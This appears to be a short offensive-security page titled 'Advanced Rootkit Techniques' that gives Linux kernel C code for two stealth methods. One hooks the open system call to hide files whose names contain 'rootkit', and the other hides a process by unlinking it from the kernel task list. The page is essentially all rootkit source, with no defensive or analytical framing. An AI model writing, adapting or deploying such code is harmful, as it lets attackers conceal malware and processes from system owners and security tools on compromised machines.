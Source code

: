 **Advanced Rootkit Techniques:**

**1. System Call Hooking:**
```c
// Hook system calls in kernel
static unsigned long *sys_call_table;

static asmlinkage long hooked_open(const struct pt_regs *regs) {
    char filename[256];
    long fd;
    
    // Get filename from registers
    strncpy_from_user(filename, (char*)regs->di, 255);
    
    // Hide specific files
    if (strstr(filename, "rootkit") != NULL) {
        return -ENOENT;  // File not found
    }
    
    // Call original open
    return original_open(regs);
}

static int __init hook_syscalls(void) {
    // Find system call table
    sys_call_table = find_sys_call_table();
    
    // Hook open system call
    original_open = (void*)sys_call_table[__NR_open];
    sys_call_table[__NR_open] = (unsigned long)hooked_open;
    
    return 0;
}
```

**2. Direct Kernel Object Manipulation (DKOM):**
```c
// Hide process by unlinking from process list
void hide_process(pid_t pid) {
    struct task_struct *task;
    struct list_head *prev, *next;
    
    // Find process
    task = pid_task(find_vpid(pid), PIDTYPE_PID);
    if (!task) return;
    
    // Unlink from process list
    prev = task->tasks.prev;
    next = task->tasks.next;
    next->prev = prev;
    prev->next = next;
    
    // Clear process links
    task->tasks.prev = NULL;
    task->tasks.next = NULL;
}
```
